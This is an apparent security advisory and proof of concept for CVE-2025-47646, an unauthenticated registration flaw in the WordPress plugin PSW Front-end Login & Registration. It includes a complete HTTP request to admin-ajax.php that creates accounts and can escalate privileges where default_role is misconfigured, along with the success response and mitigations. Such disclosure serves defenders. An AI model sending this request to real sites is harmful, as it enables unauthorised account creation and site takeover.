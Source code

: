 # 🔐 CVE-2025-47646 – PSW Front-end Login & Registration <= 1.12

## 📌 Plugin Information
- **Plugin**: PSW Front-end Login & Registration
- **Vulnerable Version**: <= 1.12
- **CVE**: CVE-2025-47646
- **Severity**: High (CVSS 9.8)
- **Vulnerability Type**: Broken Authentication
- **Privilege Required**: Unauthenticated
- **Patched**: ❌ No official fix available
- **Patch Priority**: 🔴 High
- **Date Published**: 08 May 2025

---

## ⚠️ Summary of the Vulnerability

This plugin exposes a critical flaw in its registration mechanism.  
While offering a shortcode-based front-end registration form (`[psw_registration]`), it fails to enforce proper role restrictions or secure validation.

Attackers can exploit this mechanism to create accounts without authentication — and if the site's `default_role` is misconfigured (e.g., set to `administrator`), a full privilege escalation can occur.

---

## 🧪 Proof of Concept (PoC)

### ✅ **Target endpoint**:

```
POST /wordpress/wp-admin/admin-ajax.php
```

### 📥 **Request** (e.g., via Burp Suite or curl):
```http
POST /wp-admin/admin-ajax.php HTTP/1.1

Host: {Host}

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 233

Origin: {Host}

Connection: keep-alive

Cookie:

Priority: u=0



first_name=nxploited&last_name=nxploited&new_user_name=nxpl3432oited&new_user_email=NxploitBot%40gmail.com&new_user_password=admin&new_user_password_confirmation=admin&action=register_user_front_end&psw_form=75a32ef38d
```

> `psw_form` is the nonce field required for the request to pass.  
> This nonce is dynamically generated from the `[psw_registration]` shortcode on the front-end.

---

### ✅ **Success Response**
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

<h4>Hello nxploited nxploited</h4>
<p>Thanks for creating an account on our website. Please check your email for activation link...</p>
```

---

## 🛠️ Where’s the flaw?

- The plugin allows **unauthenticated AJAX access** to `register_user_front_end`
- It **respects `default_role`** setting in WordPress to assign user roles
- If this is misconfigured (`administrator`), the attacker gets full access
- There is **no hard-coded role enforcement or validation** in the plugin logic

---

## 💬 Shortcode Explanation

To expose the registration form and generate a valid nonce for `psw_form`, the following shortcode is used:

```php
[psw_registration]
```

This renders a registration form that includes the hidden nonce field necessary to make the AJAX call succeed.

---

## 🔐 Recommendation

- Restrict unauthenticated AJAX registration
- Enforce role assignments server-side
- Monitor and lock `default_role` to a safe value (e.g., `subscriber`)
- Apply virtual patching if no update is available

---

## ⚠️ Disclaimer

This report is for **educational and authorized security testing purposes only**.  
Exploitation of this vulnerability without permission may violate legal and ethical boundaries.

---

*NXploited (Khaled_Alenazi)*

